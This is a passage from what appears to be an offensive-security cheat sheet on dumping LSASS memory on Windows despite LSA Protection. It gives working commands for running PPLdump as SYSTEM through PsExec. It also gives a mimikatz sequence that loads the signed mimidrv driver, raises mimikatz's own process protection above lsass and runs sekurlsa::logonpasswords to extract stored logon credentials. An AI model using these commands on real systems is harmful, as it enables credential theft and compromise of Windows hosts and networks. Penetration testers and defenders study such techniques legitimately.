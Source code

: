 Note that `PPLdump` must be executed as `NT AUTHORITY\SYSTEM`, which can be
achieved using, for example, the `PsExec` utility.

```bash
PPLdump.exe -v -f <lsass | LSASS_PID> <OUTPUT_DUMP>

# Using the PsExec utility to execute PPLdump as "NT AUTHORITY\SYSTEM" (as required by the DefineDosDevice technique).
PsExec.exe -accepteula -s cmd /c "<PPLDUMP_FULL_PATH> -v -f <lsass | LSASS_PID> <DUMP_OUTPUT_FULL_PATH>"
```

*Bypass through kernel-land code execution using a Windows driver.*

In order for a driver to be loaded (on systems with `Secure Boot` on), the
driver file must be digitally signed either:
  - for signature date prior to 29/07/2015, with a trusted cross-signed
    certificate, du to compatibility reasons for older drivers.
  - with a trusted `Extended Validation Code Signing Certificate`
    certificate (from partners enrolled and authorized for Kernel Mode Code
    Signing) and `Windows Hardware Quality Labs (WHQL)` certified.

If there no antivirus solution installed on the targeted system, or if the
solution deployed can be disabled, `mimikatz`'s `mimidrv` driver, digitally
signed in 2013, can be used to disable the `LSA Protection` mechanism. The
driver can be loaded as a kernel driver through `mimikatz`, which will result
in the creation of the driver `mimidrv` service (service type:
`SERVICE_KERNEL_DRIVER`). The loaded driver may then be used to protect the
`mimikatz` process, with a protection `Type` set to `PsProtectedTypeMax` and a
`Signer` level of `PsProtectedSignerWinTcb`, in order to "dominate" the
`lsass` process and be able to dump its memory.

Note that the driver file `mimidrv.sys` must be present in the same directory
as the `mimikatz.exe` being executed.

```
# One-liner: mimikatz.exe "token::elevate" "privilege::debug" "!+" "!processProtect /process:mimikatz.exe" "sekurlsa::logonpasswords" "exit"

# If necessary.
mimikatz # token::elevate
mimikatz # privilege::debug

# Loads the mimidrv driver and protect the mimikatz process.
mimikatz # !+
mimikatz # !processProtect /process:mimikatz.exe

# Futher mimikatz commands.
mimikatz # sekurlsa::logonpasswords
[...]

# Stop the driver and removes the mimidrv service
mimikatz # !-
```
